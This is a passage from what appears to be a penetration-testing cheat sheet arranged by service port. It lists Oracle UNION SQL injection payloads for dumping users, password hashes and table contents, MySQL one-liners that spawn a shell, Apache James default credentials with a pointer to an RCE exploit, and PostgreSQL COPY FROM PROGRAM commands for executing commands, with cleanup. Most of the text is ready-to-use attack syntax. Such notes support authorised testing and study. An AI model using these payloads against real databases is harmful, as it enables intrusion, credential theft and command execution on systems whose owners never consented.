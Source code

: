 ### Oracle TNS Listener (indicator of OracleDB) [1521 TCP]

OracleDB injection
```
# Current user
param='UNION SELECT user,null,null FROM dual--

# List users
param='UNION SELECT name FROM sys.user$;--
param='UNION SELECT username FROM all_users ORDER BY username;--

# Grab hashes
param='UNION SELECT name, password, astatus FROM sys.user$--
param='UNION SELECT name,spare4 FROM sys.user$--

# List all tables & owners
param='UNION SELECT DISTINCT table_name, owner FROM all_tables--

# List column names in a table
param='union SELECT column_name,null,null FROM all_tab_columns where table_name = 'TABLE_NAME'--

# Select Nth row in table
param='union SELECT col1, col2, colN FROM (SELECT ROWNUM r, col1, col2 FROM TABLE_NAME ORDER BY col1) where r=(row_number)--
```


### MySQL [3306 TCP]

[MySQL commands cheatsheet](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)

Execute commands non-interactively
* `mysql -u root -p[password] mysql -e "[mysql_command]"`
* `mysql -u root -p[password] mysql -e "SHOW VERSION();"`

Drop into shell non-interactively
* `mysql -u root -p[assword mysql -e "\! /bin/sh"`

See "Mysql UDF" in privesc section for privilege escalation techniques.

### Apache James Mail Server [4555 TCP]

Default credentials are `root` / `root`.

`Version 2.3.2` is vulnerable to [RCE - SEE HERE](https://packetstormsecurity.com/files/164313/Apache-James-Server-2.3.2-Remote-Command-Execution.html).

### PostgreSQL [5432, 5433 TCP]

Authenticated arbitrary command execution
* PostgreSQL ver 9.3 > LATEST
```sql
$ psql -h [target] -p [port] -U postgres
Password for user postgres:

postgres=# \c postgres                              # connect to postgres DB
postgres=# CREATE TABLE cmd_exec(cmd_output text);  # create table to hold cmd output
postgres=# COPY cmd_exec FROM PROGRAM ‘{command}’;  # exec command
postgres=# SELECT * FROM cmd_exec;                  # view results
postgres=# DROP TABLE IF EXISTS cmd_exec;           # cleanup
```
